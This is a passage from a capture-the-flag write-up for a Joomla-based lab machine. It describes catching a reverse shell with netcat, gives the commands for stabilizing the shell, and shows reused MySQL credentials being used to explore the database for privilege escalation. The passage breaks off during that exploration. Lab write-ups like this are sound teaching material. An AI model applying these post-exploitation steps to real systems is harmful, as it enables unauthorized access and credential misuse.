 A reverse shell will land on your netcat after you save the changes.
![reverse shell](./devvortex/reverse_shell.jpg).

Let's first stabilize the shell using the following command:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Now,let's go for user flag in /home/logan/user.txt . But we don't have permission to read that file since the user.txt belongs to logan and we are logged in as lewis. So, we need some horizontal previlege escalation. Since from the research about joomla, we knew that it stored the data in mySQL database and from api endpoint we have the mysql credentials of lewis.

`mysql -u lewis -p`

after this command , a password field is prompted is and entering the password we get logged into lewis's account. Using SQL knowledge, lets explore the contents....

1. `show databases;` -> displays all the databases present.
    ```SQL
    mysql> show databases;

    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | joomla             |
    | performance_schema |
    +--------------------+
    3 rows in set (0.01 sec)
    ```

